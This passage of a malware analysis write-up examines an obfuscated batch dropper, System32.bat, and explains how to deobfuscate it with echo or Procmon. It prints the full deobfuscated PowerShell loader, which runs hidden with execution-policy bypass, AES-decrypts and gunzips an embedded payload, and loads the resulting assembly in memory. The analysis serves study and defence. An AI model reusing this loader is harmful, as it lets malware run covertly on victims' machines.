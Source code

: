 ```
AutoOpen
remnux@remnux:~/Downloads$ 
```

## Second Stage Payload 

- System32.bat file is obfuscated, Lot of environment variables are created and concatenated to build commands. If it's difficult to read, it's easy to deobfuscate. 

- Just add a "echo" at the beginning of all lines at the bottom of the file and execute it or you can use Procmon tool to PowerShell executed command.

> **SHA256:** d329a265d4005b2cb8902d6148ff5e4477f2203bc2e476e51e5895f9be99c53e

![image](https://user-images.githubusercontent.com/43460691/216255585-757086c3-90c7-40c2-88ed-97b47c3df79d.png)

- Capture the process ecexution using Procmon, If you open the process start operation you can see the deobfuscated command.

![image](https://user-images.githubusercontent.com/43460691/216359119-9be8ed37-8a16-4924-8dcc-ae34e2c52d8a.png)


- This script is a dropper. You can see base64 encoded payload is located in the file and read by PowerShell. Payload is identified by lines starting with **":: ".** 

```
"system32.bat.exe" -noprofile -windowstyle hidden -ep bypass -command $eIfqq = [System.IO.File]::('txeTllAdaeR'[-1..-11] -join '')('C:\Users\admin\AppData\Local\Temp\system32.bat').Split([Environment]::NewLine)
foreach ($YiLGW in $eIfqq) 
{ 
  if ($YiLGW.StartsWith(':: ')) 
     { 
	    $VuGcO = $YiLGW.Substring(3)
        break
     }
}
$uZOcm = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')($VuGcO)
$BacUA = New-Object System.Security.Cryptography.AesManaged
$BacUA.Mode = [System.Security.Cryptography.CipherMode]::CBC
$BacUA.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7

$BacUA.Key = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('CeRsc6tTBkD+M0zxU7egGVErAsa/NtkVIHXeHDUiW20=')
$BacUA.IV = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('2hn/J717js1MwdbbqMn7Lw==')

$Nlgap = $BacUA.CreateDecryptor()
$uZOcm = $Nlgap.TransformFinalBlock($uZOcm, 0, $uZOcm.Length)
$Nlgap.Dispose()
$BacUA.Dispose()
$mNKMr = New-Object System.IO.MemoryStream(, $uZOcm)
$bTMLk = New-Object System.IO.MemoryStream
$NVPbn = New-Object System.IO.Compression.GZipStream($mNKMr, [IO.Compression.CompressionMode]::Decompress)
$NVPbn.CopyTo($bTMLk)
$NVPbn.Dispose()
$mNKMr.Dispose()
$bTMLk.Dispose()
$uZOcm = $bTMLk.ToArray()
$gDBNO = [System.Reflection.Assembly]::('daoL'[-1..-4] -join '')($uZOcm)
$PtfdQ = $gDBNO.EntryPoint
$PtfdQ.Invoke($null, (, [string[]] ('')))
![image](https://user-images.githubusercontent.com/43460691/216255789-c6e19f63-9991-4a34-b805-3de608cc2353.png)
```
